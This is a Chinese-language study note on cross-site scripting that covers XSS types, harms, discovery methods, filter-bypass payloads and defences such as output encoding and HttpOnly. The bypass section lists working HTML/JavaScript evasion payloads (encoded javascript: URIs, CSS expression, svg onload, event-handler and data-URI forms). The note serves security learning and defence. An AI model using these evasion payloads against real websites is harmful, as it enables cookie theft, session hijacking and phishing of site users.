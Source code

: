 # XSS NOTE

### 分类

反射型、存储型、DOM型

DOM型：通过修改DOM结点形成的XSS

反射型和存储型与服务器交互，DOM型则不

### 危害

网络钓鱼

网页挂马

盗取Cookie

Dos攻击

钓鱼攻击

蠕虫攻击

结合CSRF攻击

强制弹出广告、刷流量

### 利用方式

Cookie窃取（同源策略：同协议、同域名、同端口）

设置了HTTPOnly可以通过调试信息、phpinfo()方式获得

会话劫持（Cookie、Session）

钓鱼（嵌入iframe）

XSS重定向钓鱼

HTML注入式钓鱼（通过js修改页面DOM对象属性，或在原页面中添加新的DOM元素，前者更隐蔽）

反射型XSS：攻击者通过电子邮件等方式将包含XSS代码的恶意链接发送给目标用户。当目标用户访问该链接时，服务器接受该目标用户的请求并进行处理，然后服务器把带有XSS的代码发送给目标用户的浏览器，浏览器解析这段带有XSS代码的恶意脚本后，就会触发XSS漏洞

存储型XSS：攻击者在发帖或留言的过程中，将恶意脚本连同正常信息一起注入到发布内容中。随着发布内容被服务器存储下来，恶意脚本也将永久的存放到服务器的后端存储器中。当其他用户浏览这个被注入了恶意脚本的帖子时，恶意脚本就会在用户的浏览器中得到执行

DOM型XSS：用户请求一个经过专门设计的URL，它由攻击者提供，而且其中包含XSS代码。服务器的响应不会以任何形式包含攻击者的脚本，当用户的浏览器处理这个响应时，DOM对象就会处理XSS代码，导致存在XSS漏洞

### 挖掘

**白盒：**查找可能在页面输出的变量，检验他们是否受到控制，然后跟踪变量的传递过程，分析是否被htmlencode()之类的函数过滤

**黑盒：** 输入框处，可能存在所有类型XSS；URL参数，可能存在反射型+DOM型

1. 数据交互的地方

- get、post、cookies、headers
- 反馈与浏览
- 富文本编辑器
- 各类标签插入和自定义

2. 数据输出的地方

- 用户资料
- 关键词、标签、说明
- 文件上传

### 绕过

1. 空格、回车和TAB

在js中只会将分号`;`作为语句的终止符，当浏览器引擎解析js脚本时没有匹配到分号则继续处理，直到发现分号为止，而换行符并不是终止符

```html
<img src=javasc
     ript:aler
     t(/xss/) />
```

2. ASCII转码

```html
<img src="javascript:alert(/xss/);" />
```

替换成

```html
<img src="javascrip&#116&#58alert(/xss/);" />
```

在ASCII表中，116表示`t`，58表示`:`

**也可以将&#01,&#02插入javascript头部，还可以将tab(&#09)、换行符(&#10)、回车符(&#13)插入代码中**

3. 扰乱规则

- 大小写变换
- 利用expression执行xss时，可以构造不同的**全角**字符来扰乱过滤规则
- 结合注释符
- 样式标签会过滤`\`和`\0`，可以构造`@i\mp\0ort 'jav\0asc\0rip\0t:al\0er\t("x\0ss")';`绕过
- 对css关键字进行编码处理，如unicode编码字母e后为65

4. 字符编码

unicode、escapes、八进制、十进制、十六进制、URL编码、String.fromCharCode编码

5. 拆分法

如果一个网站规定了输入最大长度，但是shellcode太长，可以拆分成几部分再组合起来

6. 使用未过滤事件名

```html
onstop
onReverse
onURLFilp
onPause
onstop
onmouseover
```

7. 使用CSS绕过（受浏览器版本限制，不推荐）

css样式表也可以执行javascript代码

```html
<link rel="stylesheet" href="http://www.myweb.com/attack.css">
```

```html
<div style="background-image: url(javascript:alert('xss'))"></div>
```

```html
<style type="text/css">
	body{
		background-image: url("javascript:alert('xss')");
	}
</style>
```

css中使用expression执行javascript(IE6以下)

```html
<div style="width: expression (alert('XSS'));"></div>
<img src="#" style="xss:expression(alert(/xss/))">
```

css中使用@import执行javascript

```html
<style>
	@import 'javascript:alert("xss")';
</style>
```

8. svg标签

```html
<svg onload=alert(1)>
```

9. form标签

```html
<form action=javascript:alert('xss') method="get">
<form action=javascript:alert('xss')>
```

```html
<form method=post action=aa.asp? onmouseover=prompt('xss')>
<form method=post action=aa.asp? onmouseover=alert('xss')>
<form action=1 onmouseover=alert('xss)>
```

```html
<!--原code-->
<form method=post action="data:text/html;base64,<script>alert('xss')</script>">
<!--base64编码-->
<form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

10. input标签

```html
<input name="name" value="" onmouseover=prompt('xss') bad="">
```

### 防御

- 输入

严控用户输入内容，如手机号只允许输入11位数字，其他为非法字符

尽量采用白名单验证

- 输出

输出的地方使用HTML编码将特殊字符转义为实体符

htmlspecialchar(string,quotestyle)：实体编码函数，默认只编码双引号，使用时第二个参数带上ENT_QUOTES更安全，同时编码单引号和双引号

`<` 编码成 `&lt;`

`>` 编码成 `&gt;`

`''` 编码成 `&#039;`

`"` 编码成 `&quot;`

`&` 编码成 `&amp;`

htmlspecialchars_decode(string,quotestyle)：实体解码函数，转换为实体形式，输出时浏览器会自动还原

- 其他

使用Noscript插件禁止所有脚本，可自定义设置允许的脚本

设置HttpOnly

开启WAF


